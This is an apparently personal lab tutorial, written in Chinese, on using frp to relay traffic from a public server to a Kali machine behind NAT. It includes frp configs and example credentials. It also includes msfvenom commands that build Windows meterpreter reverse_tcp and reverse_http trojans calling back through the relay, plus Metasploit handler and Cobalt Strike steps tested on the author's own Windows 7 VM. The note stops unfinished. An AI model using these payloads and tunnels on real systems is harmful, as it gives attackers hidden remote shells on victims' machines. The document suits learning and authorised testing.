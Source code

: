 # kali公网渗透测试方法
#frp #内网穿透
## frp
### 反向
#### 服务端配置
[GitHub-frp仓库](https://github.com/fatedier/frp)，下载之后将frp分别拷贝到公网和内网主机上，在公网主机（Ubuntu，以下简称S）打开配置文件`nano frps.ini`中编辑设置如下。
```ini
#frps.ini
[common]
bind_port = 7777
dashboard_user = admin
dashboard_pwd = nimda
dashboard_port = 7776
token = nimda@admin
vhost_http_port = 8080
```

保存执行：`./frps -c ./frps.ini`

![](../../attaches/Pasted%20image%2020220922185940.png)
#### 客户端配置
内网主机（kali，以下简称C）打开配置文件`nano frpc.ini`中编辑设置如下。
```ini
# frpc.ini
[common]
server_addr = X.X.X.X
server_port = 7777
token = nimda@admin

[web]
type = http
local_ip = 0.0.0.0
local_port = 80
custom_domains = X.X.X.X
remote_port = 8888

[ssh]
type = tcp
local_ip = 0.0.0.0
local_port = 22
custom_domains = X.X.X.X
remote_port = 2222

[reverse_tcp]
type = tcp
local_ip = 0.0.0.0
local_port = 4444
custom_domains = X.X.X.X
remote_port = 4444

[cs]
type = tcp
local_ip = 0.0.0.0
local_port = 1111
custom_domains = X.X.X.X
remote_port = 1111
```

保存执行：`./frpc -c ./frpc.ini`

![](../../attaches/Pasted%20image%2020220922194217.png)
#### 测试http服务器
访问http://X.X.X.X:8888，成功看到C上的文件。

![](../../attaches/1663847023860.png)
#### 测试ssh
执行`ssh kali@X.X.X.X -p 2222`输入yes和密码后成功弹shell。
![](../../attaches/Pasted%20image%2020220922201121.png)
#### 测试反向tcp
C中执行`msfvenom -p windows/meterpreter/reverse_tcp lhost=X.X.X.X lport=4444 -f exe > tcp.exe`生成木马程序，在msf中开启一个tcp监听。
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
```
![](../../attaches/Pasted%20image%2020220922202540.png)

靶机使用NAT，kali使用桥接，相当于两者在不同内网中，在靶机（windows7，以下简称B）中执行木马文件，在kali中看到session。
![](../../attaches/Pasted%20image%2020220922203249.png)
#### 测试反向http
C中执行`msfvenom -p windows/meterpreter/reverse_http lhost=X.X.X.X lport=8888 -f exe > http.exe`生成木马程序，在msf中开启一个tcp监听。
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 80
```

![](../../attaches/Pasted%20image%2020220922203720.png)

在B上执行木马文件，在kali中看到session。
![](../../attaches/Pasted%20image%2020220922204703.png)
#### 测试CS
在S上开启teamserver。

![](../../attaches/Pasted%20image%2020220922205614.png)

在C上连接S，设置监听器。

![](../../attaches/Pasted%20image%2020220922211147.png)
待续

### 正向
